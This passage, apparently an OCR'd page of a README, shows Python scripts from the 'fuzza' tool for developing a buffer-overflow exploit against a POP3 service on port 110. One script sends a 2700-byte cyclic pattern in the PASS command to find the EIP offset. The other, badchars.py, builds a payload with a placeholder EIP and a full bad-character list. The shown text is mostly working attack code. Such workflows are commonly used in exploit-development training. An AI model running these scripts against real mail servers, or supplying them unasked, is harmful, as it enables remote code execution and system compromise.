 ```python
    "Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"
)  # 2700 bytes from pattern_create.rb

print('Trying to send %s bytes unique chars...' % (str(len(pattern))))
try:
    s.connect(('mail.example.tld', 110))
    s.recv(1024)
    s.send(str2b('USER test\r\n'))
    s.recv(1024)
    s.send(str2b('PASS ' + pattern + '\r\n'))
    s.recv(1024)
    s.send(str2b('QUIT\r\n'))
    print('done')
except:
    print('Could not connect')
s.close()
```

**`badchars.py`**
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Unescape P2/P3 and convert to bytes if Python3."""
    # Python2: Unescape control chars
    try:
        return data.decode('string_escape')
    except AttributeError:
        pass
    except UnicodeDecodeError:
        pass
    # Python3: Unescape control chars and convert to byte
    try:
        return data.encode("utf-8").decode('unicode-escape').encode("latin1")
    except UnicodeDecodeError:
        pass

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_overflow = 2700      # Use pattern_create.rb and pattern_offset.rb to find exact offset
eip          = "B"*4     # Ignore for badchar detection
badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

```